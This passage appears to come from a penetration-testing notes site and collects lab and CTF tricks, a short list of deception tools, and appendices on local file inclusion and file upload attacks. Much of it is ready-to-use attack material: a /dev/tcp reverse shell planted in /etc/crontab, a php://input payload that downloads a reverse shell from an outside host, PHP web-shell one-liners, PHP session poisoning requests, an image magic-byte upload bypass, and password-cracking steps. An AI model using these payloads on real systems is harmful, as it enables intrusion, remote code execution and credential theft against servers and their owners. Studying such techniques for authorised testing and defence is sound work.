* Find recently modified files:

  ::

   find / -mmin -10 -type f 2>/dev/null

  The above will show you which files have been modified within the last 10 minutes, which could help you find out whether an important config file, or log file has been modified.

* Getting a reverse shell from:

 * Drupal: Now that we have access to the Drupal administration panel, we can gain RCE by enabling the PHP filter module. This will allow us to execute arbitrary code on the site by inserting a specifically crafted string into page content. After enabling the module, I proceed to allow code to be executed by all users under the configuration screen for the module. Once enabled we need to give permission to use it so in people -> permissions check "Use the PHP code text for. 
   
   Next, we create a new block (by going to Blocks, under the Structure menu) with the following content. We make sure to select PHP code from the Text format drop down. Taken from `Droopy Vulnhub WriteUp <https://g0blin.co.uk/droopy-vulnhub-writeup/>`_
   Drupal settings file location: /var/www/html/sites/default/settings.php
 
 * WordPress : If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible way is to do Appearance > Editor > Possibly edit 404 Template.

* If the only port which is open is 3128, check for the open proxy and route the traffic via the open proxy. Probably, squid proxy server would be running. If it is the squid configuration file is /etc/squid/squid.conf
 
 * If you do get the configuration file, do check for what kind of proxy it is! like SOCKS4, SOCKS5 or HTTP(S) proxy and is there any authentication required to access the proxy. 
 * We may utilize `Proxychains <https://github.com/haad/proxychains>`_ to access the other side of network like ssh, http etc. 

* Running Asterisk/ Elastix/ FreePBX or any PBX, probably try `SIPVicious <https://github.com/EnableSecurity/sipvicious>`_  suite is a set of tools that can be used to audit SIP based VoIP systems. Running "http:\\IP\panel" should provide us valid extensions.

* Sharepoint running? Probably, check `SPartan <https://github.com/sensepost/SPartan>`_ Frontpage and Sharepoint fingerprinting and attack tool and `SharePwn <https://github.com/0rigen/SharePwn>`_ SharePoint Security Auditor.

* authbind software allows a program that would normally require superuser privileges to access privileged network services to run as a non-privileged user. authbind allows the system administrator to permit specific users and groups access to bind to TCP and UDP ports below 1024.

* Mostly, if there's only port open like ssh and the IP might be acting as a interface between two networks? Like IT and OT. Probably, try to add that IP address as a default route? As it might be acting as a router?

* If you are trying to figure out the hostname of the machine and the DNS-Server is not configured, may be try to do a Full Nmap Scan -A Option? (Still need to figure out how does that work)

* Want to send a email via the SMTP server something like SMTP-Open-Relay utilize `Swaks <http://www.jetmore.org/john/code/swaks/>`_ Swiss Army Knife for SMTP.

  ::

   swaks --to xxxxx@example.com --from xxxxxee@example.edu --server 192.168.110.105:2525 --body "Hey Buddy How are you doing" --header "Subject: Hello! Long time"

* Got /etc/shadow file?, utilize /etc/passwd with unshadow command and use john or cudahashcat to crack passwords.

 ::

  unshadow passwd shadown

* If IIS and WebDav with PUT and MOVE method are enabled, we can use testdav or cadaver (A command-line WebDAV client for Unix) to see which files are allowed

 ::

  davtest -url http://10.54.98.15/
  ********************************************************
   Testing DAV connection
  OPEN		SUCCEED:		http://10.54.98.15
  ********************************************************
  NOTE	Random string for this session: E3u9ISnNswYes0
  ********************************************************
   Creating directory
  MKCOL		SUCCEED:		Created http://10.54.98.15/DavTestDir_E3u9ISnNswYes0
  ********************************************************
   Sending test files
  PUT	pl	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.pl
  PUT	asp	FAIL
  PUT	aspx	FAIL
  PUT	cgi	FAIL
  PUT	html	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  PUT	cfm	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.cfm
  PUT	jhtml	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jhtml
  PUT	shtml	FAIL
  PUT	php	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.php
  PUT	jsp	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jsp
  PUT	txt	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  ********************************************************
   Checking for test file execution
  EXEC	pl	FAIL
  EXEC	html	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  EXEC	cfm	FAIL
  EXEC	jhtml	FAIL
  EXEC	php	FAIL
  EXEC	jsp	FAIL
  EXEC	txt	SUCCEED:	http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  
  ********************************************************
  /usr/bin/davtest Summary:
  Created: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.pl
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.cfm
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jhtml
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.php
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jsp
  PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  Executes: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  Executes: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
 
 Now, we can see that pl, html, txt and other files can be uploaded. Now, if the MOVE method is enabled, we can upload a php meterpreter in a text file and then MOVE the .txt file to .php and execute the php file.

* In one of the VM, one of the task was to capture the RAM of the system by using LiME ~ Linux Memory Extractor ( which is executed by suid binary with root privileges ). Let's say the ramdump was saved at

  ::

   /tmp/ramdump

  If, you create a symlink from /tmp/ramdump to /etc/crontab

  ::

   ln -s /etc/crontab /tmp/ramdump

  Now, when the ramdump is taken, lime will now dump the content of RAM straight into /etc/crontab. As crontab will ignore everything which doesn’t match the correct syntax. If the memory contains a injected string such as 

  ::

   cat cron.py
   print "* * * * * root /bin/bash /home/username/evilscript"
  
  the injected string will end up in /etc/crontab will be executed.

  The contents of evilscript can be

  ::

   /bin/bash -i >& /dev/tcp/IP/Port 0>&1

  which will provide the root shell to the attacker. Thanks to TheColonial :)

* `phpbash <https://github.com/Arrexel/phpbash>`_ is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible.

* ps aux not fully visible try 

  ::

   echo "`ps aux --sort -rss`"

* If there's a XXE on a website and possible RFI using internal address i.e on http://127.0.0.1:80/home=RFI rather than http://10.54.98.10:80/home=RFI, utilize XXE to send the request with localaddress.

* If there's a possible command execution on a website such as 

  ::

   curl -A "bitvijays" -i "http://IPAddress/example?parameter=' whoami'"

  However, it is protected by a WAF, probably, try bash globbling techniques with ? and \*. Refer `Web Application Firewall (WAF) Evasion Techniques <https://medium.com/secjuice/waf-evasion-techniques-718026d693d8>`_
  Also, it might be a good idea to test the command with ? on your local machine first then directly on the target.

* Similar to ls there is dir in linux. Try "dir -l" Might be helpful sometimes.

* Sometimes, we don't have tools on the victim machine, in that case we can download static binaries from `Static-Binaries <https://github.com/andrew-d/static-binaries>`_ If not, found, try the deb or rpm package of the binary, extract it and upload.

* Handy Stuff

 * Utilize xxd to convert hex to ascii

  ::

   xxd -r -p
   -p | -ps | -postscript | -plain : output in postscript continuous hexdump style. Also known as plain hexdump style.
   -r | -revert : reverse operation: convert (or patch) hexdump into binary.  If not writing to stdout, xxd writes into its output file without truncating it. Use the combination -r -p to read plain hexadecimal dumps without line number information and without a particular column layout. Additional Whitespace and line-breaks are allowed anywhere.

 * Use python

  * binascii.unhexlify(hexstr) to convert hex to string
  * base64.decodestring(str) to decode base64 string
  * Convert number to hex

   :: 
     
      hex(15)
      '0xf'

  * Convert hex to decimal

   ::

    s = "6a48f82d8e828ce82b82"
    i = int(s, 16)

 * Getting out of more
  
  If in somecase, we are unable to ssh into the machine or being logged out when trying ssh, check the /etc/passwd file for the shell defined for that user.

  ::
   
    cat /etc/passwd | grep user1
    user1:x:11026:11026:user level 1:/home/user1:/usr/bin/showtext

  Here Instead of /bin/bash, user1 is using /usr/bin/showtext, which is apparently not a shell. Let’s look at the content of the file

  ::

    cat /usr/bin/showtext
    #!/bin/sh
    more ~/text.txt
    exit 0

  In such cases, First, minimize your terminal so that when we are logged into user1 via ssh command, the large text will force a “more” message to prompt us to continue the output. Now that we have forced the terminal to prompt us to continue the display via “more” or “–More–(50%)” in this case, press “v” to enter “vim”, a built-in text editor on Unix machines. Once, we have vim interface, use :shell to get a shell.

 * List all the files together

  ::

   find /home -type f -printf "%f\t%p\t%u\%g\t%m\n" 2>/dev/null | column -t
 

Cyber-Deception
===============

Wordpot
-------

`Wordpot <https://github.com/gbrindisi/wordpot>`_ : Wordpot is a Wordpress honeypot which detects probes for plugins, themes, timthumb and other common files used to fingerprint a wordpress installation.

::

 python /opt/wp/wordpot.py --host=$lanip --port=69 --title=Welcome to XXXXXXX Blog Beta --ver=1.0 --server=XXXXXXXWordpress

FakeSMTP
--------

`FakeSMTP <http://nilhcem.com/FakeSMTP/>`_ : FakeSMTP is a Free Fake SMTP Server with GUI for testing emails in applications easily.

::

  java -jar /opt/fakesmtp/target/fakeSMTP-2.1-SNAPSHOT.jar -s -b -p 2525 127.0.0.1 -o /home/username

Rubberglue
----------

`Rubberglue <https://github.com/adhdproject/adhdproject.github.io/blob/master/Tools/Rubberglue.md>`_ : We can use Rubberglue to listen on a port such that any traffic it receives on that port it will forward back to the client ( attacker ) on the same port.

::

  python2 /opt/honeyports/honeyports-0.4.py -p 23

Knockd
------

`Knockd - Port-knocking server <http://www.zeroflux.org/projects/knock>`_ : knockd is a port-knock server. It listens to all traffic on an ethernet (or PPP) interface, looking for special "knock" sequences of port-hits. A client makes these port-hits by sending a TCP (or UDP) packet to a port on the server. This port need not be open -- since knockd listens at the link-layer level, it sees all traffic even if it's destined for a closed port. When the server detects a specific sequence of port-hits, it runs a command defined in its configuration file. This can be used to open up holes in a firewall for quick access.

If there is port knocking involved, read the /etc/knockd.conf, read the sequence port know should be done and execute

::

 for PORT in 43059 22435 17432; do nmap -PN 192.168.56.203 -p $PORT; done

DCEPT
-----

SecureWorks researchers have created a solution known as `DCEPT (Domain Controller Enticing Password Tripwire) <https://www.secureworks.com/blog/dcept>`_ to detect network intrusions. Github is `dcept <https://github.com/secureworks/dcept>`_ 

Useful Tools
============

* `exe2hex <https://github.com/g0tmi1k/exe2hex>`_ : Inline file transfer using in-built Windows tools (DEBUG.exe or PowerShell). 

* `Powercat <https://github.com/secabstraction/PowerCat>`_ : A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat

.. _A1-Local-file-Inclusion:

Appendix-I : Local File Inclusion
=================================

Local File Inclusion (LFI) is a type of vulnerability concerning web server. It allow an attacker to include a local file on the web server. It occurs due to the use of not properly sanitized user input.

Tools
-----

To test LFI, RFI, we can also use `Uniscan <http://tools.kali.org/web-applications/uniscan>`_ Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. 

::

  uniscan -h
  OPTIONS:
    -h  help
    -u  <url> example: https://www.example.com/
    -f  <file> list of url's
    -b  Uniscan go to background
    -q  Enable Directory checks
    -w  Enable File checks
    -e  Enable robots.txt and sitemap.xml check
    -d  Enable Dynamic checks
    -s  Enable Static checks
    -r  Enable Stress checks
    -i  <dork> Bing search
    -o  <dork> Google search
    -g  Web fingerprint
    -j  Server fingerprint

  usage:
  [1] perl ./uniscan.pl -u http://www.example.com/ -qweds
  [2] perl ./uniscan.pl -f sites.txt -bqweds
  [3] perl ./uniscan.pl -i uniscan
  [4] perl ./uniscan.pl -i "ip:xxx.xxx.xxx.xxx"
  [5] perl ./uniscan.pl -o "inurl:test"
  [6] perl ./uniscan.pl -u https://www.example.com/ -r

There's another tool called `fimap <https://tools.kali.org/web-applications/fimap>`_. However, it is better to check the source of uniscan for LFI and see what it is trying and try that with curl specially if cookies are required to set (in case of authenticated LFI). Personally, I tried Uniscan and for some reason cookie feature was not working and fimap only support POST parameter in cookie no GET.

.. Note :: Also, if we have unprivileged user shell or an ability to store a file somewhere in the filesystem, however don't have permission to write in /var/www/html but does have LFI, we can still write (php meterpreter shell) in /tmp or user home directory and utilize LFI to get a reverse shell.

Filtering in LFI
^^^^^^^^^^^^^^^^

Sometimes, there might be some filtering applied by default. For example: filename=secret.txt, here it is possible that it will only read files named secret.txt or with extension .txt. So, may be rename your payload accordingly. 

For example: the below code only includes the file which are named secret
::

 <?php
   $file = @$_GET['filname'];
   if(strlen($file) > 55)
      exit("File name too long.");
   $fileName = basename($file);
   if(!strpos($file, "secret"))
     exit("No secret is selected.");
   echo "<pre>";
   include($file);
   echo "</pre>";
 ?>

LFI to Remote Code Execution
----------------------------

Mainly taken from `LFI-Cheat-Sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_ , `Exploiting PHP File Inclusion – Overview <https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/>`_ and `Upgrade from LFI to RCE via PHP Sessions <https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/>`_

There are variety of different tricks to turn your LFI into RCE. Using 

File upload forms/ functions
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Figure out if there are any upload forms or functions, we will upload your malicious code to the victim server, which can be executed.

PHP wrapper expect://command
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

::

 http://IP/fileincl/example1.php?page=expect://ls

If PHP expect wrapper is disabled, below error is encountered.

::

 Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 
 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 
 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 
 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7

PHP wrapper php://file
^^^^^^^^^^^^^^^^^^^^^^
PHP wrapper php://filter
^^^^^^^^^^^^^^^^^^^^^^^^

php://filter is a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening. This is useful with all-in-one file functions such as readfile(), file(), and file_get_contents() where there is otherwise no opportunity to apply a filter to the stream prior the contents being read.

The output is encoded using base64, so you’ll need to decode the output.

::

 http://IP/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

or

We could use php filter to read the source code of a PHP File

:: 

  http://xqi.cc/index.php?m=php://filter/read=convert.base64-encode/resource=index.php

More information can be found at `Using PHP for file inclusion <https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/>`_

PHP input:// stream
^^^^^^^^^^^^^^^^^^^

php://input allows you to read raw POST data. It is a less memory intensive alternative to $HTTP_RAW_POST_DATA and does not need any special php.ini directives. php://input is not available with enctype=”multipart/form-data”.

Send your payload in the POST request using curl, burp.

Example:

::

 http://IP/fileincl/example1.php?page=php://input


Post Data payload:

::

  <? system('wget http://IP/php-reverse-shell.php -O /var/www/shell.php');?>

After uploading execute the reverse shell at 

::

 http://IP/shell.php

data://text/plain;base64,command
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

/proc/self/environ
^^^^^^^^^^^^^^^^^^

If it’s possible to include /proc/self/environ from your vulnerable LFI script, then code execution can be leveraged by manipulating the User Agent parameter with Burp. After the PHP code has been introduced /proc/self/environ can be executed via your vulnerable LFI script.

/proc/self/fd
^^^^^^^^^^^^^

If it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the referer.

This method is a little tricky as the proc file that contains the Apache error log information changes under /proc/self/fd/ e.g. /proc/self/fd/2, /proc/self/fd/10 etc. 
Utilize `LFI-LogFileCheck.txt <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion%20-%20Path%20Traversal/Intruders/LFI-LogFileCheck.txt>`_ with Burp Intruder, and check for the returned page sizes.

Control over PHP Session Values
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Let's say, a vulnerable page is present with the post request

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
 Content-Length: 44
 Connection: close
 Upgrade-Insecure-Requests: 1
 
 login=1&user=admin&pass=admin&lang=en_us.php

with LFI

::

 login=1&user=admin&pass=admin&lang=../../../../../../../../../../etc/passwd

Now, the server store cookies

::

 Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
 Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
 Set-Cookie: pass=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly

As we know PHP5 stores it’s session files by default under /var/lib/php5/sess_[PHPSESSID]. (If not, do check phpinfo and figure out the location of temp files) – so the above issued session “i56kgbsq9rm8ndg3qbarhsbm27” would be stored under /var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

Now, we can write the cookie with a php command

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
 Content-Length: 134
 Connection: close
 Upgrade-Insecure-Requests: 1

 login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php

This would result in 

::

 Set-Cookie: user=%3C%3Fphp+system%28%22cat+%2Fetc%2Fpasswd%22%29%3B%3F%3E; expires=Mon, 13-Aug-2018 20:40:53 GMT; path=/; httponly

Now, the php command can be executed using

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 141
 Connection: close
 Upgrade-Insecure-Requests: 1

 login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

The session file could again afterwards be included using the LFI (note that you need to remove the cookie from the request, otherwise it would get overwritten again and the payload would fail)

Email Server 
^^^^^^^^^^^^

.. _A2-File-Upload:

Appendix-II : File Upload
=========================

Examples
--------

Simple File Upload
^^^^^^^^^^^^^^^^^^

Intercepting the request in Burp/ ZAP and changing the file-extension.

Below is the PHP code

::

  <?  

  function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
  } 

  function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
  } 

  function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
  } 

  if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
  } else { 
  ?> 
  <form enctype="multipart/form-data" action="index.php" method="POST">  
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />  
  <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />  
  Choose a JPEG to upload (max 1KB):<br/>  
  <input name="uploadedfile" type="file" /><br />  
  <input type="submit" value="Upload File" />  
  </form>  
  <? } ?>   

If we change the extension of filename tag from JPG to PHP, we may be able to execute code remotely.

* Create a fake JPG containing php code.

  We’ll be using system() to read our password.

 ::

   echo "<?php system($_GET["cmd"]); ?>" > shell.jpg  

* Upload JPG, intercept in Burp/ ZAP and change the extension

 ::

   <input name="filename" value="o0xn5q93si.jpg" type="hidden">  

  is changed to

 ::

  <input name="filename" value="o0xn5q93si.php" type="hidden">  

Simple File Upload - With verifying image type
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

In this the above PHP code remain almost the same apart from little addition that we check the filetype of the file uploaded

::

  <?php  
  ...  
  
  else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
    }  
  
  ...  
  
  ?> 

Since the exif_imagetype function checks the filetype of the uploaded file. It checks the first bytes of an image are against a signature. Most filetypes such as JPEG, ZIP, TAR, etc. have a "Magic Number" at the beginning of the file to help verify its file type. So to pass the exif_imagetype function check, our file must start with the magic number of a supported image format.

* Take a valid file (JPG or whichever file format, we are trying to bypass), take the valid hexdump of that file (Let's say first 100 bytes)

 ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg

   -n length         : Interpret only length bytes of Input
   -e format_string  : Specify a format string to be used for displaying data

 Example:
 
 ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg
   \xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01\x01\x01\x01\x2C\x01\x2C\x00\x00\xFF\xE1\x00\x16\x45\x78\x69\x66\x00\x00\x4D\x4D\x00\x2A\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\xFF\xDB\x00\x43\x00\x05\x03\x04\x04\x04\x03\x05\x04\x04\x04\x05\x05\x05\x06\x07\x0C\x08\x07\x07\x07\x07\x0F\x0B\x0B\x09\x0C\x11\x0F\x12\x12\x11\x0F\x11\x11\x13\x16\x1C\x17\x13\x14\x1A\x15\x11\x11\x18\x21\x18\x1A\x1D\x1D\x1F
  
* Create a file with JPG header and command shell code using python

  ::

   >>> fh = open('shell.php','w')  
   >>> fh.write('The Hexdump from above \xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')  
   >>> fh.close()   

.. Tip :: Do check the source code of the page for any client-side file validation or any commented hidden parameters?

We can also upload an actual .jpeg, but alter the coments in the metadata to include the php code.

.. disqus::
